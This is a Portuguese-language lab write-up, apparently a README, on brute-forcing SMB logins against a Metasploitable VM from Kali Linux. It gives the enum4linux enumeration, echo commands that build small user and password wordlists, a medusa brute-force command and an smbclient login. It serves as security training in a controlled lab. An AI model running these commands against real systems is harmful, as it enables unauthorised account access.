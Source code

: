 Simulando um Ataque de Brute Force de Senhas com Medusa e Kali Linux

Conforme aprendizado foi utilizado tecnicas para criar wordlists de usuarios e senhas para testes utilizando Medusa em ambiente controlado com VMs Kali Linux e Metasploit, além de capturar possiveis vulnerabilidades do alvo.


Após subir as VMs em laboratório e inicia-las utilizando no kali "enum4linux -a X.X.X.X" foi possivel identificar uma possivel entrada via smb.

Efetuada a criação das wordlists para testes de força bruta com os comandos:
echo -e "user\nmsfadmin\nservice" > smb_users.txt
echo -e "password\n123456\nWelcome123\nmsfadmin" > senhas_spray.txt

Agora ao teste de autenticação utilizando:
medusa -h X.X.X.X -U smb_users.txt -P senhas_spray.txt -t 2 -T 50 | grep SUCCESS

Adicionei o comando grep para filtrar somente resultados de sucesso de autenticação.

Após o match de user e pass foi efetuada a conexão e acesso ao dispositivo utilizando o comando:
smbclient -L //X.X.X.X -U Username

Inserido a senha quando solicitado, acesso concluido.



